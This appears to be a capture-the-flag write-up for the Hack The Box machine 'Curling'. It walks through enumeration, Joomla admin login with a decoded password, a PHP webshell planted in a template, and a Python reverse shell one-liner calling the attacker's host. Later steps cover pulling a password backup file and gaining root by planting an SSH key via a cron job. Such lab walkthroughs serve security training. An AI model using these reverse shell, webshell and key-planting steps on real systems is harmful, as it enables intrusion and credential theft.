# [Curling](https://app.hackthebox.com/machines/Curling)

```bash
nmap -p- --min-rate 5000 10.10.10.150 -Pn 
```



After knowing open ports (22,80), let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.10.150 
```




Let's do directory enumeration for this target via `gobuster`.

```bash
gobuster dir -u http://10.10.10.150/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x txt -t 40
```




I browse the `/secret.txt` file and see some encoded data.




I decode this on [CyberChef](https://cyberchef.io/).



Curling2018!

From my enumeration this possible password for '**floris**' user.




Yes, that's correct let's use this credentials to access `/administrator` endpoint which is **Joomla!** application.

floris: Curling2018!




Let's try to upload `webshell` into here.

For this, go to 'Extension' -> 'Templates (2x)', select what you want.

I select 'Beez3' one to edit templates.




I change `error.php` file's content with `.php` webshell.



Now browsing `/templates/beez3/error.php?cmd=id`, we got remote code execution.




Let's add our reverse shell here as URL encoded.
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.7",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```




Hola, I got reverse shell from port (1337).




Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




I found `password_backup` file on `floris` user's home folder.




Let's download this file into our attacker's machine.

First, open http server to serve this file.
```bash
python3 -m http.server --bind 10.10.10.150 8080
```




Then, download this file via `wget` command.
```bash
wget http://10.10.10.150:8080/password_backup
```



I just take this file and paste into [Cyberchef](https://cyberchef.io).



I can the file's content, maybe this password of `floris` user.

floris: 5d<wdCbdZu)|hChXll


Let's switch into `floris` user.

user.txt




I just upload `pspy64` into machine to see background cronjobs.



I see that there is job that copies data from `url` input and paste this data into `output` file on machine.

For privilege escalation, I just write my machine's public key file into here and paste into location of `root` user's `authorized_keys` file.

```bash
output="/root/.ssh/authorized_keys"
url="http://10.10.16.7:8080/id_rsa.pub"
```




While my public key is triggered, it means my public key is already added into `authorized_keys` file.



Now, we can connect into machine via private key of attacker (id_rsa) by using `ssh` command.

```bash
ssh -i /root/.ssh/id_rsa root@10.10.10.150
```

root.txt

